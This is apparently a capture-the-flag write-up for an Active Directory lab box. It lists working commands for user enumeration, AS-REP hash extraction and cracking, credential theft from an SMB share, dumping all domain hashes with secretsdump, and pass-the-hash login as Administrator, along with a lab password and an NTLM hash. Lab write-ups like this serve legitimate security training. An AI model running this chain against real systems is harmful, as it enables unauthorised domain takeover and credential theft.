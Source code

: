 export ip=10.10.108.165

# Recon and Scanning

## nmap
- `sudo nmap -sC -sV -oG nmap.log -O $ip`

## kerbrute
- `kerbrute userenum --dc spookysec.local -d spookysec.local /usr/share/wordlists/rockyou.txt`
  - need to set `spookysec.local` entry in the `/etc/hosts` file.
- `python3 /opt/impacket/examples/GetNPUsers.py -format hashcat -outputfile impacket.hashes -usersfile users.txt spookysec.local/`
  - to get the password hash for the user svc-admin
- `hashcat -m 18200 -a 0 impacket.hashes rockyou.txt`
  - we get the password

## smbclient
- `smbclient -L=spookysec.local`
  - Use the username and the password we got by cracking the hash
- `smbclient -U spookysec.local/svc-admin //spookysec.local/backup`
  - enter the password
  - `get backup_credentials.txt` to download the file 
    - decode it using `base64 -d` to get the user name and password for backup account

## impacket
- using this new username and password to login
  - `python3 /opt/impacket/examples/secretsdump.py -dc-ip $ip spookysec.local/backup:backup2517860@$ip`
    - this will get us all the hashes of the users in the active directory

## evil-winrm
- Trying to login into windoes using username and hash
  - `evil-winrm -i $ip -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`
  - If we go to the users Desktop, we can see the root.txt flag
  - we can go to all the other users' desktops to get the remaining flags